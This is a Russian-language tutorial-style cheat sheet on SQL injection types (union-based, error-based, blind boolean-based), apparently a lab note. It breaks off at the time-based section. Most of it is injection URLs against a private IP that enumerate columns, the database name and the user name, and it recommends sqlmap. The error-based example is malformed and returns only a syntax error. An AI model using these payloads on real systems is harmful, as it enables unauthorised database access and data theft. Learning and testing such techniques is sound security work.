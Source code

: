 ### 2. По типу SQL-инъекций

### Union-based

**Описание:** Наиболее популярный и легкий тип

**Пример инъекции:**

```sql
http://172.23.58.183/?id=1' UNION SELECT 1, database() -- -
```

> **ВАЖНО**!!! Количество столбцов для результата UNION запроса должно **РАВНЯТЬСЯ** количеству столбцов для исходной выборки. Узнать количество столбцов можно
> 

```sql
http://172.23.58.183/?id=1' ORDER BY 2 -- - //нет ошибки
http://172.23.58.183/?id=1' ORDER BY 3 -- - //есть ошибка, значит столбцов 2
```

### Error-based

**Описание:** Использует ошибки для получения данных

```sql
http://172.23.58.183/?id=1' SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2)x GROUP BY MID(VERSION(), FLOOR(RAND(33)*2), 64)

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2)x GROUP BY MID(VERSION(), FLOOR(RA' at line 1
```

### Blind Boolean-based

**Описание:** Нет возможности вывести данные, ошибок также нет

**Метод:** Получение информации через true/false запросы

```sql
http://172.23.58.183/?id=1' and ASCII(SUBSTRING((SELECT user()),1,1))>97 -- - //вопрос "правда ли, что первый символ имени пользователя имеет код больше 97 в ASCII?", истина - страница прорисуется

http://172.23.58.183/?id=1' and ASCII(SUBSTRING((SELECT user()),1,1))<97 -- - //вопрос "правда ли, что первый символ имени пользователя имеет код меньше 97 в ASCII?", ложь - страница не прорисуется (или пропадет прежний результат выборки запроса, главное что есть отличие от предыдущего) 
```

> Слепые инъекции трудоемки в эксплуатации, крайне рекомендуется автоматизировать (самописными скриптами или sqlmap)
> 

### Blind Time-based

**Описание:** Сложный тип инъекции, когда совсем нет возможности увидеть результат инъекции

